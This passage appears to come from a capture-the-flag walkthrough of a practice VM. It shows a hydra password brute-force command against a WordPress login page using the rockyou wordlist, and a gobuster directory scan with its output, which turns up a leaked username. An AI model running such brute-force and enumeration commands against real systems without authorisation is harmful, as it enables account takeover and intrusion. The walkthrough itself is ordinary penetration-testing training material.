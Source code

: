 ![](images/stapler15.png)

`hydra -l john -P rockyou.txt $ip http-form-post '/blogblog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=ERROR'`

No luck there. I double check all of the other usernames we've found to see if they exist and everything except fred does exist on the blogblog site.

I run hydra on all of the valid usernames for 1 minute each and don't have any luck.

Time to see what gobuster finds for this:

`gobuster dir -u https://$ip:12380 -t 40 -k -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 21]
/robots.txt           (Status: 200) [Size: 59]
/javascript           (Status: 403) [Size: 303]
/phpmyadmin           (Status: 200) [Size: 10338]
/announcements        (Status: 200) [Size: 960]
```

Looking at /announcements shows us a message with yet another username:

```
Abby, we need to link the folder somewhere! Hidden at the mo
```

